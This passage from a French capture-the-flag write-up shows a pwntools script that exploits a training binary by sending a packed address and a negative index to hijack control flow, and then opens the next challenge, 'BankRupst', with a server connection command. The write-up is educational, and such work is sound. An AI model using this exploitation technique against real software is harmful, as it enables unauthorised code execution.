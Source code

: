 ![](attachment/2934fd8a6897bf8e72d2979f12b72f30.png)

##### Exploitation

![](attachment/db8e77672cb41a86661a42b5394a3e3f.png)

💣 En little endian ça donne : 0xff1540 -> ÿ@ 

💣 Bon, ça contient des caractères non imprimables, on va passer par l'option pwntools !!!

```python
from pwn import *

io = process('./2_chal')

io.sendlineafter(b'Quel est tom nom ? ',p64(0x4015ff))
io.sendlineafter(b'-> ', str(-4))

# On crée un animal custom
io.sendlineafter(b'animal: ', b'1')
io.sendlineafter(b'animal: ', b'chat persan')
io.sendlineafter(b'animal: ', b'chat')

io.sendlineafter(b'-> ', b'4')

io.interactive()
```

![](attachment/f1b87254a1ff4420df4e3a1bfd6ed30a.png)
### BankRupst

>consigne : BankRupst is a bank operating in bankruptcy where no laws are applicable.

`openssl s_client -verify_quiet -quiet -connect bankrupst.serviel.fr:1234`
